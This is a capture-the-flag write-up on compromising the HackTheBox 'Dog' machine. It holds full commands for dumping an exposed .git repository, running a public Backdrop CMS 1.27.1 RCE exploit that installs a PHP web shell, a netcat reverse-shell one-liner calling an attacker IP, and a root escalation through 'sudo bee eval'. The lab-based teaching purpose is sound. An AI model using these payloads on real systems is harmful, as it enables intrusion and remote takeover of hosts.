







<p align="center">
  
</p>

[Dog](https://www.hackthebox.com/machines/dog) machine on [HachTheBox](https://www.hackthebox.com/) is an easy-level machine. For the initial foothold, after first scanning the application it revelas it consists of a CMS with a repository accessible. Under that repository we can gather some information that gives us access as admin on the CMS. After that we can leverage CMS module upload to gain a reverse shell. From there privilege escalation is obtained after pivoting to a user which was reusing a password and was able to execute binary as sudo which had a command that allowed to run arbitrary PHP code and escalate to root.

## Info

|------------------|----------------------------|
| **Name**         | Dog                        |
| **OS**           | Linux                      |
| **Difficulty**   | Easy   🟢                 |

## Port scanning

We begin by identifying the services exposed by the target host.

```bash
┌──(kali㉿kali)-[~/Documents/HTB]
└─$ nmap -sC -sV dog.htb -T4
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-22 04:54 CDT
Nmap scan report for dog.htb (10.129.158.70)
Host is up (0.0077s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
| http-git: 
|   10.129.158.70:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Home | Dog
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Initial foothold

Previous scan showed that there is a public `.git` repository. We proceed to extract that using `git-dumper`:

```bash
┌──(kali㉿kali)-[~/Documents/HTB]
└─$git clone https://github.com/arthaud/git-dumper.git
┌──(kali㉿kali)-[~/Documents/HTB]
└─$pip install -r requirements.txt
┌──(kali㉿kali)-[~/Documents/HTB]
└─$./git_dumper.py http://dog.htb/.git ../dog && cd ../dog
```

Searching on the extracted files we found a `root` user and its password on `settings.php`

```bash
┌──(kali㉿kali)-[~/Documents/HTB/dog]
└─$cat settings.php 
<?php
/**
 * @file
 * Main Backdrop CMS configuration file.
 */

/**
 * Database configuration:
 *
 * Most sites can configure their database by entering the connection string
 * below. If using primary/replica databases or multiple connections, see the
 * advanced database documentation at
 * https://api.backdropcms.org/database-configuration
 */
$database = 'mysql://root:<REDACTED>@127.0.0.1/backdrop';
$database_prefix = '';

/**
 * Site configuration files location.
...
...
```

We test those credentials on login CMS portal but seems that they are not working



After some time continuing our search around extracted files we found `tiffany` user by searching for `dog.htb`

```bash
┌──(git-dumper)─(kali㉿kali)-[~/Documents/HTB/dog/dog]
└─$ grep -r "dog.htb" .                                
./.git/logs/HEAD:0000000000000000000000000000000000000000 8204779c764abd4c9d8d95038b6d22b6a7515afa root <dog@dog.htb> 1738963331 +0000  commit (initial): todo: customize url aliases. reference:https://docs.backdropcms.org/documentation/url-aliases
./.git/logs/refs/heads/master:0000000000000000000000000000000000000000 8204779c764abd4c9d8d95038b6d22b6a7515afa root <dog@dog.htb> 1738963331 +0000     commit (initial): todo: customize url aliases. reference:https://docs.backdropcms.org/documentation/url-aliases
./files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:        "tiffany@dog.htb"
```

That user works and we get access to admin panel



We want to know which version this concrete Backgrop CMS is using to see if there's some known vulnerability, so we search by `VERSION'` on extracted files we found backdrop CMS version `1.27.1.`

```bash
┌──(git-dumper)─(kali㉿kali)-[~/Documents/HTB/dog/dog]
└─$ grep -ri "VERSION'" . 
...
./core/includes/bootstrap.inc:define('BACKDROP_VERSION', '1.27.1');
...
```

Searching for exploits for `Backdrop` we found one which can be useful for us as it is the same version and it is an authenticated RCE, which we can probably use as we now have a valid admin credentials.

```bash
┌──(kali㉿kali)-[~/Documents/HTB/dog]
└─$ searchsploit "Backdrop"
-------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                      |  Path
-------------------------------------------------------------------- ---------------------------------
Backdrop CMS 1.20.0 - 'Multiple' Cross-Site Request Forgery (CSRF)  | php/webapps/50323.html
Backdrop CMS 1.23.0 - Stored XSS                                    | php/webapps/51905.txt
Backdrop CMS 1.27.1 - Authenticated Remote Command Execution (RCE)  | php/webapps/52021.py
Backdrop Cms v1.25.1 - Stored Cross-Site Scripting (XSS)            | php/webapps/51597.txt
-------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(kali㉿kali)-[~/Documents/HTB/dog]
└─$ cp /usr/share/exploitdb/exploits/php/webapps/52021.py exploit.py
```

Executing the exploit we see that a `shell.zip` file is generated. After examining the exploit code it seems that it creates a `shell.php` file and uploads it as a module.
It can be leveraged to run commands by using `cmd` parameter.

```bash
┌──(kali㉿kali)-[~/Documents/HTB/dog]
└─$ python3 exploit.py http://dog.htb/
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://dog.htb//admin/modules/install and upload the shell.zip for Manual Installation.
Your shell address: http://dog.htb//modules/shell/shell.php
```

The url reported by the exploit is not working fine. So place after some search we found that URL to upload modules is the following one `http://dog.htb/?q=admin/modules/install`



Uploading modules only supports `tar` files



Exploit also generated a `shell` folder, so we compress generated folder to `shell.tar` and we are going to use that

```bash
┌──(kali㉿kali)-[~/Documents/HTB/dog]
└─$ tar -cvf shell.tar shell                                              
shell/
shell/shell.info
shell/shell.php
```

Uploading it shows a message indicating a successful installation



Then going to `http://dog.htb/modules/shell/shell.php?cmd=id` as the script mentioned we get code execution.



Now we try to get a reverse shell with the following payload URL-encoded

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.217 4444 >/tmp/f
```

`URL-Encoded` 

```bash
http://dog.htb/modules/shell/shell.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff|sh%20-i%202%3E%261|nc%2010.10.14.217%204444%20%3E%2Ftmp%2Ff
```

After executing that URL on the browser we get reverse shell as `www-data`

```bash
┌──(kali㉿kali)-[~/Documents/HTB/dog]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.217] from (UNKNOWN) [10.129.145.3] 50270
sh: 0: can't access tty; job control turned off
$ python --version
sh: 1: python: not found
$ python3 --version
Python 3.8.10
$ python3 -c "import pty;pty.spawn('/bin/bash');"
www-data@dog:/var/www/html/modules/shell$ export TERM=xterm
export TERM=xterm
www-data@dog:/var/www/html/modules/shell$ stty rows 40 columns 120
```

After making a stable shell, checking home directory reveals two users: `jobert` and `johncusack`

```bash
www-data@dog:/var/www/html/modules/shell$ ls -la /home
ls -la /home
total 16
drwxr-xr-x  4 root       root       4096 Aug 15  2024 .
drwxr-xr-x 19 root       root       4096 Feb  7  2025 ..
drwxr-xr-x  4 jobert     jobert     4096 Feb  7  2025 jobert
drwxr-xr-x  3 johncusack johncusack 4096 Feb  7  2025 johncusack
```

Testing both users with previously found password we see it is has been reused for `johncusack` user as we get a successful login.
Under this user we found `user.txt` file:

```bash
www-data@dog:/var/www/html/modules/shell$ su johncusack
su johncusack
Password: <REDACTED>

johncusack@dog:/var/www/html/modules/shell$ whoami
whoami
johncusack
johncusack@dog:/var/www/html/modules/shell$ 
johncusack@dog:/var/www/html/modules/shell$ cd /home  
cd /home
johncusack@dog:/home$ cd johncusack
cd johncusack
johncusack@dog:~$ cat user.txt
cat user.txt
97<REDACTED>
```

## Privilege escalation

Executing `sudo -l` we found that this user can execute `bee` utility as sudo without password

```bash
johncusack@dog:~$ sudo -l
sudo -l
[sudo] password for johncusack: ...

Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
johncusack@dog:~$ /usr/local/bin/bee
/usr/local/bin/bee
```

Checking `bee` options there's one that allows us to execute arbitrary PHP code.



Using `eval` command we can execute PHP code to spawn a root shell via /bin/bash, sucessfully getting `root` user and its `root.txt` file

```bash
johncusack@dog:/var/www/html/modules/shell$ sudo bee eval 'system("/bin/bash");'
[sudo] password for johncusack: <REDACTED>

root@dog:/var/www/html# cat /root/root.txt
cat /root/root.txt
30<REDACTED>
```
